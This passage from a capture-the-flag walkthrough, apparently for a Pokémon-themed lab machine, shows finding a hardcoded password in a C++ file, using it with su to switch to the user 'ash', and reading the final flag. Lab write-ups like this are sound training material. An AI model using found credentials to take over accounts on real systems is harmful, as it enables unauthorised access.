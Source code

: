 If we ```cat``` this file we can see what looks like login credentials (ash:pikpika).

```c
cat Videos/Gotta/Catch/Them/ALL\!/Could_this_be_what_Im_looking_for\?.cplusplus
# include <iostream>

int main() {
	std::cout << "ash : pikapika"
	return 0;
}
```

Let's ```su``` into the ```ash``` user so we can read the file he owns in the ```home``` directory (```/home/roots-pokemon.txt```).

```
pokemon@root:~$ su ash
Password: pikapika
```

You should see the following output:

```
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/ash/.bashrc: Permission denied
ash@root:/home/pokemon$ 
```

To verify we are indeed Ash we can use the ```whoami``` command.

```
ash@root:/home/pokemon$ whoami
ash
```

Now we can read the ```roots-pokemon.txt``` file to find the last flag.

```
ash@root:/home/pokemon$ cat /home/roots-pokemon.txt
Pikachu!
```

---

### [Back To Top](#gotta-catchem-all "Jump To Top")
